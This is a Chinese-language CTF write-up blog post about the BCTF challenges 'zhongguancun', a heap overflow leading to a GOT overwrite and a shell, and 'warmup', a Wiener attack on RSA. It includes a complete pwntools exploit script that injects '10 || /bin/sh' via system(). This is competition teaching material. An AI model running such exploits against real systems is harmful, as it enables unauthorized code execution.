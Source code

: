 ```yaml
---
title: BCTF writeup
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
  - crypto
---
```


周末参加了今年的第一次CTF，BCTF。由于这次CTF是面向国际的，所以题目的质量都比较高，种类也比较单纯，以逆向、溢出为主。这次确实是一个非常难得的锻炼机会，让我们体验到了国际水平CTF的难度。

我们队做出了5道题，我做出了zhongguancun和warmup。在这里记录下我思考的过程。

## zhongguancun

是我在周日下午才做出来的。（差距啊……）

我的习惯是，首先通读一遍IDA F5得到的伪代码。但读完后没有发现什么明显的漏洞。具体的，可以创建不同种类的商品，最多16个。有一个全局的数组保存这些商品的指针，而每个商品的结构体中，除了保存我们提供的描述信息、价格等，还在结构体的起始处存有函数指针数组。这里面的函数是在某些步骤下要调用的。此外，还可以汇总现有的商品，生成一个menu，里面记录了商品的所有信息。

第一天找溢出点就花了好久……因为一直没有发现那种很明显的覆盖。最后，是比较了malloc分给menu的大小和menu最多可能存放的内容长度，才发现了溢出点。而且要做到溢出还是比较苛刻的，不仅商品的数目要达到最大，每个商品里的信息长度也要最长，就连商品的价格也要使得printf打印出来的尽可能长（所以价格是负数，就为了多那一个负号）。这样的结果是，生成的menu的长度可以超过malloc分配的长度，覆盖后面的内容。

而menu和商品都是在heap上储存的，如果在menu的后面存有商品，那么上述的溢出就可以修改那个商品的结构体。通过实验发现，我们先生成menu，再添加商品，那么这新添加的商品在heap的地址就在menu的地址之后了。通过计算可得，溢出可以覆盖menu下一个block的前5个字符，所以正好可以覆盖那个商品保存的函数数组。于是我的想法是，先添加第一个商品（因为如果没有商品就不能生成menu），再生成menu；再添加15个商品，再次重新生成menu（用的地址还是前面分配给menu的地址）。这样的话，第二个商品的函数数组就被覆盖了。之后我们再对这个商品进行访问，就可以调用我们提供的函数了。

但是，到这里才刚开始……函数数组里有两个函数，每一个在调用之前都会做检查。如果往函数数组里读`/dev/zero`成功，那么就认为检查不通过。也就是说，要求我们覆盖后的地址是不可写的，GOT这种运行时可写的就不满足要求。这一点我觉得是这道题的关键（最后发现flag里也说到了这一点）

我试着打印.text段里包含的函数指针，发现没有找到什么好用的。最后只能将目光放在原本的函数数组上。这两个函数，一个是用来生成商品的menu内容，参数是商品指针和用来存放所生成字符串的地址；另一个则是计算价格，参数是商品指针和购买数量。我突然发现，如果在应该调用第二个函数时，调用了第一个，那么就可以实现往任意地址写内容了。这是因为，第二个参数--我们提供的购买数量，会被当作是要保存menu信息的字符串地址，`sprintf`往里面写内容。

然而到这里，这个向任意地址写内容的漏洞还是不太实用。因为`sprintf`所写的内容一直到非常靠后面才是我们可控的，即就是说为了修改某地址，我们需要从这个地址的前面就开始覆盖，而这就有一定的局限性。比如说要覆盖GOT第一个的`sprintf`，就需要从GOT前面很远的地方开始写，而不幸的是，那里是不可写的。这个问题也是困扰我比较久的一处。

最后发现了不自然的地方。（又是不自然之处，我觉得我很多题目都是从那些看上去很别扭的地方突破的）具体地，程序里预先定义了商品的不同类型，而且我们也只能选择其一，但这些商品类型字符串居然没有保存在`rodata`里面。一般来说这些都是字符串常量的。这就是不自然的地方。也就是说，我们利用前面的向任意地址写内容的漏洞，去修改这些商品类型字符串的内容；进一步，在后面再次调用有问题的生成menu信息的函数时，所用的商品类型信息变成了我们刚刚修改的，而这些信息恰好就被`sprintf`打印在最开始了。这就解决了上面提到的问题，不需要在目标地址之前开始覆盖了。

于是，我们有了一个可用的向任意地址写任意内容的漏洞。下面所做的，我首先是打印库函数地址来检查ASLR。因为有提供`libc.so`，所以通过某个函数地址泄露就可以得到`system`的地址。我是通过改写存放商品指针的数组内容来做到这一点的。具体地，改写存放所有商品指针的数组的某一项，然后在购买该项时选择"buy buy buy"，计算剩余金钱。这样就会取读这个商品指针后面`ptr+0x76`处的4 bytes作为商品的价格，于是由剩余的金钱就可以计算出商品的价格，即`ptr+0x76`处的内容。当然实际操作时，程序还会检查剩余金额需要非负。这一点，我们可以先买价格为负数的其他商品，使得总金钱变的足够大后再去买。

通过检查GOT里库函数地址，我发现虽然ASLR开启了，但库函数地址只有中间2个bytes被随机化了，也就是说最多只有256种可能，这和我见到的的ASLR相比太少了。这也直接导致我最后使用暴力碰撞地址的办法。因为时间紧迫，我没有分析出如何将计算得到的`system`的地址再写回（有知道的大牛请不吝赐教哈），而是猜测`system`的一个可能的地址，然后反复跑直到真正的地址恰好是我所猜测的。具体地，修改`sprintf@got`为这个我猜的`system`的地址，那么在执行计算价格时，`sprintf`会作用到某个字符串buf上，而那里正好存放的是刚刚读入的购买商品的个数。于是我如果输入`10 || /bin/sh`，那么`atoi`会返回10，通过检查，紧接着的`sprinf`就会变成调用`system("10 || /bin/sh")`，执行shell了。不过这里我后来想改`atoi@got`应该也可以，而且更方便。

于是，我开始一遍遍地跑，希望我猜测的地址能够碰上。跑了大概20几次，终于撞上了。得到flag是`BCTF{h0w_could_you_byp4ss_vt4ble_read0nly_ch3cks}`。好吧，readonly check，我也是第一次见到这样的，学习了。

下面是python代码，其中`system`的地址就是我猜测的。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')
    elf = ELF('zhong')

    #ip = "127.0.0.1"
    ip = sys.argv[1]
    conn = remote(ip, 6666)

#store name
    payload = "a\n" + "A"*63 + "\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

    genPhoneDes = 0x08049b74

#content of GOT before function addresses are resolved
#len 18
    gotB4=[0x080486c6, 0x080486d6, 0x080486e6, 0x080486f6, 0x08048706, 0x08048716, 0x08048726, 0xf7cc5570, 0x08048746, 0x08048756, 0x08048766, 0x08048776, 0x08048786, 0x08048796, 0x080487a6, 0x080487b6, 0x080487c6, 0x080487d6]
    
    system = 0xf7433da0
#rewrite the 1st entry(sprint) as system, and make sure the other function calls won't crash
    funcAddr = [system] + gotB4[1:]

#create the 1st product
    payload = "a\n" + "B"*31 + "\n4\n-1011111111\n" + "CC" + ''.join([p32(x) for x in funcAddr]) + p32(genPhoneDes) + "D\n"
    conn.recvuntil("Your choice? ")
    conn.send(payload)

#generate the menu
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#create the following product
    for i in range(1,16):
        conn.recvuntil("Your choice? ")
        conn.send(payload)

#generate the menu again
    conn.recvuntil("Your choice? ")
    conn.send("c\n")

#write to addr storing phone type string 
    blackberry = 0x0804b0fc
    payload = "d\nb\n2\nb\n" + str(blackberry-60) + "\n"
    conn.send(payload)
    
#rewrite sprintf@got
    sprintfGot = 0x0804b00c
    payload = "b\n" + str(sprintfGot) + "\n"
    conn.send(payload)
    conn.recvuntil("Your choice? ")

#calculate wholwsale price of another product
    payload = "c\nb\n5\nb\n"
    conn.send(payload)
    conn.recvuntil("How many do you plan to buy?")

#call sprintf which is system now
    cmd = "/bin/sh"
    payload = "10 || " + cmd + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}

后记：阅读其他人的writeup，才知道可以不用暴力碰撞的……只需要通过对`atoi@got`进行一个相对的修改，改为`system`即可。而这是可以通过将`atoi@got`改为存放金钱的指针来完成，然后在减去花费的金额时就可以对那里操作了。太巧妙了！

## warmup

这道题只有50分，应该不难，但我是一直到周一凌晨1点多才做出来……

这道题是RSA，给了密文`c`和公钥文件，从中可以获得公钥`e`, `n`。发现`e`非常大，几乎和`n`是同阶的，这非常不自然，因为我常见到的`e`都是很小的。最后我是在查看RSA的wiki时，发现说密钥`d`应该足够大，否则会有Wiener攻击破解。而联想到这么大的`e`，我猜想`d`可能会很小，没想到试了下真的是这样……我是直接用[这里](https://github.com/pablocelayes/rsa-wiener-attack)的现成的代码，并且设置`sys.setrecursionlimit`为10000，用了大概一分多钟得到了密钥`d`。之后就是简单的指数运算，得到明文`p=0x424354467b3965745265613479217d`，即`BCTF{9etRea4y!}`。

## 感想

虽然我们的成绩并不是那么突出，但这次比赛还是很有意义的。其实从总体来看，感觉国内的队伍对web方面的题目还是比较熟练，国外队伍则是在溢出、逆向这些方面比较强。而这次比赛，有大量大分值的溢出逆向题目，所以最后的成绩，国内队伍和国际顶级队伍还是有不小差距。也许溢出逆向为主是国际比赛的主流风格了。不 管怎样，我相信我们国内的队伍也会在这方面不断提高的，我也希望能够和爱好信息安全的小伙伴们共同探讨学习，提高水平。

